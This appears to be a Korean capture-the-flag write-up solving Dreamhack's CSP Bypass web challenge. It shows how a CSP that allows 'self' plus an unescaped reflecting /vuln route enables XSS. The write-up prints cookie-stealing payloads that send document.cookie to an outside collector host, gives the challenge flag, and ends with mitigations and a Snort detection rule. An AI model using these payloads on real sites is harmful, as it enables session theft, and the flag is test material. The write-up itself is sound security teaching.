



# [Dreamhack] CSP Bypass - Web Hacking

## 1. 문제 개요

* **문제 링크:** [Dreamhack - CSP Bypass](https://dreamhack.io/wargame/challenges/435)

* **분야:** Web

* **목표:** CSP(Content-Security-Policy) 우회를 통한 XSS로 봇이 보유한 flag 쿠키 탈취

## 2. 취약점 분석
제공된 `app.py` 소스 코드 분석 결과, `after_request` 훅에서 매 응답마다 `script-src 'self' 'nonce-{nonce}'`를 포함한 CSP 헤더를 적용하며, 이때 `nonce` 값이 응답마다 재생성되어 고정된 인라인 스크립트로는 재사용 불가한 구조로 확인. 다만 `script-src` 값에 `'self'`가 nonce와 OR 조건으로 명시되어 있어, 동일 오리진에서 로드되는 외부 스크립트(`<script src="...">`)는 nonce 없이도 허용되는 구조로 확인.

`/vuln` 라우트는 `render_template`을 거치지 않고 `param` 파라미터 값을 이스케이프 없이 그대로 반환하는 구조로 확인되어, 이 라우트를 `<script src="/vuln?param=...">` 형태로 재호출하면 응답 내용이 그대로 실행 가능한 JS 코드가 되는 구조로 확인. 반면 `/memo` 라우트는 `render_template`을 경유하며 Jinja2 템플릿 엔진의 자동 이스케이프(autoescape)가 적용되고, 상속받는 `base.html` 전체를 포함한 완성된 HTML 문서로 응답하는 구조라 동일한 방식의 악용이 불가능한 구조로 확인.

```python
# [app.py] CSP 헤더 설정 - after_request 훅, nonce 매 응답마다 재생성
@app.after_request
def add_header(response):
    global nonce
    response.headers[
        "Content-Security-Policy"
    ] = f"default-src 'self'; img-src https://dreamhack.io; style-src 'self' 'unsafe-inline'; script-src 'self' 'nonce-{nonce}'"
    nonce = os.urandom(16).hex()
    return response
```

```python
# [app.py] /vuln 라우트 - escape 없이 param 그대로 반사
@app.route("/vuln")
def vuln():
    param = request.args.get("param", "")
    return param
```

```python
# [app.py] /flag 라우트 - 봇이 입력받은 param URL로 접속, 쿠키에 FLAG 세팅
@app.route("/flag", methods=["GET", "POST"])
def flag():
    # ... (중략) ...
    elif request.method == "POST":
        param = request.form.get("param")
        if not check_xss(param, {"name": "flag", "value": FLAG.strip()}):
            return f'<script nonce={nonce}>alert("wrong??");history.go(-1);</script>'
        return f'<script nonce={nonce}>alert("good");history.go(-1);</script>'
```

* **분석 결론:** `script-src`에 `'self'`와 nonce가 OR 조건으로 허용되어 있어, nonce는 고정 불가하나 동일 오리진 스크립트 로드는 항상 통과 가능한 구조로 확인. escape 없이 그대로 반사되는 `/vuln`을 `<script src="/vuln?param=...">` 형태로 재귀 호출하면 CSP 우회 및 XSS 실행이 가능한 구조로 확인.

## 3. 공격 수행

1. `app.py` 소스코드 확인, CSP `script-src 'self'` 조건과 `/vuln`의 무필터 반사 구조 파악.

2. 인라인 스크립트(`<script>...</script>`, `onerror=` 등)는 nonce 불일치로 전부 차단됨을 확인, 대신 `<script src="/vuln?param=...">` 형태로 `/vuln`을 다시 호출해 `'self'` 조건으로 통과시키는 방식 시도.

3. `document.cookie`(flag 값이 담긴 쿠키) 값을 내 서버 주소 뒤에 붙여, 봇의 브라우저를 해당 주소로 강제 이동시켜 쿠키를 유출시키는 페이로드 작성, `/flag` 폼의 `param` 필드에 입력.



4. 최초 페이로드에서 JS 문자열 연결 연산자 `+`를 그대로 사용, `<script src>`가 자동 생성하는 2차 요청의 쿼리스트링에서 인코딩되지 않은 `+`가 서버(Flask) 파싱 단계에서 공백으로 디코딩되며 JS 구문 오류로 실행 실패 확인.

```javascript
// Payload - 실패한 최초 페이로드 (+ 연산자로 인한 구문 오류)
<script src="/vuln?param=location='https://vcbqccm.request.dreamhack.games?c='+document.cookie"></script>
```

5. 문자열 연결 연산자를 템플릿 리터럴(백틱)로 교체해 `+` 문자를 제거, 수정된 페이로드를 재제출.

```javascript
// Payload - 최종 페이로드 (템플릿 리터럴 사용)
<script src="/vuln?param=location=`https://vcbqccm.request.dreamhack.games?c=${document.cookie}`"></script>
```

6. Burp Repeater로 최종 요청 전송, CSP 헤더 및 `"good"` alert 응답 확인.



7. RequestBin으로 수신된 요청의 쿼리스트링에서 봇이 보유한 flag 쿠키 값 확인.



## 4. 획득 결과
CSP `script-src`의 `'self'` 조건을 이용해 escape 없이 반사되는 `/vuln`을 재귀 호출, 동일 오리진 스크립트 로드로 위장한 XSS를 실행시켜 `document.cookie`를 top-level navigation으로 외부 서버에 전송, RequestBin 로그에서 플래그 확인.

* **FLAG:** `DH{81e64da19119756d725a33889ec3909c}`

## 5. 대응 방안
CSP 정책 설계와 반사형 엔드포인트의 구조적 결합으로 발생한 취약점이므로, 정책 구성과 애플리케이션 코드 양쪽에서의 대응 필요.

* **CSP `script-src`에서 `'self'` 제거:** nonce 기반 정책만 단독으로 사용, 동일 오리진 스크립트를 재호출해 실행시키는 방식 자체를 차단.

* **반사형 엔드포인트 escape 적용:** `/vuln`처럼 사용자 입력을 가공 없이 그대로 반환하는 라우트에 `render_template`을 경유시키거나 `Markup.escape()`를 적용해 HTML/JS 컨텍스트 이스케이프 처리.

* **`Content-Type` 명시:** `/vuln` 응답에 `Content-Type: text/plain`을 명시적으로 지정, 브라우저가 응답 내용을 자동으로 JS로 판단해 실행해버리는 동작 자체를 차단.

* **`navigate-to` 디렉티브 적용:** CSP에 페이지 이동(top-level navigation) 자체를 제한하는 `navigate-to` 지시문을 추가해, `location` 조작을 통한 데이터 유출 경로를 정책 수준에서 차단.

* **민감 쿠키 보호 속성 적용:** flag 쿠키에 `HttpOnly` 속성을 부여해 JS의 `document.cookie` 접근 자체를 원천 차단.

## 6. 블루팀 관점 요약
보안관제 및 침해사고 대응(IR) 관점에서, CSP 우회를 통한 반사형 XSS 및 쿠키 exfiltration 행위 탐지.

* **WAF 및 웹 서버 로그 분석:** Access 로그에서 `/vuln?param=` 값에 `<script src=` 형태로 자기 자신의 경로(`/vuln`)를 재귀 참조하는 패턴, 또는 `location=`, `document.cookie` 등 exfiltration 관련 문자열 식별.

* **침해사고 대응(IR) 시나리오:** 동일 세션/IP에서 `/vuln` 엔드포인트가 짧은 시간 내 연속 두 번 호출되며(1차: 페이로드 삽입 요청, 2차: `<script src>`로 인한 브라우저 자동 재요청), 2차 요청 직후 외부 도메인으로의 페이지 이탈(Referer 변화)이 관측될 경우 쿠키 탈취 성공 여부로 판단.

* **네트워크 기반 탐지 룰 제안 (Snort 3):**

  - `/vuln` 경로의 `param` 값에 `<script src=` 재귀 패턴과 `document.cookie` exfiltration 시도가 동시 포함된 요청 탐지.

  - `alert tcp $EXTERNAL_NET any -> $HTTP_SERVERS $HTTP_PORTS (msg:"[Web] CSP Bypass via Same-Origin Script Recursion - Cookie Exfiltration Attempt"; flow:to_server,established; http_uri; content:"/vuln"; content:"param="; distance:0; http_uri; pcre:"/param=.*%3Cscript.*src.*%2Fvuln.*document\.cookie/i"; sid:1000007; rev:1;)`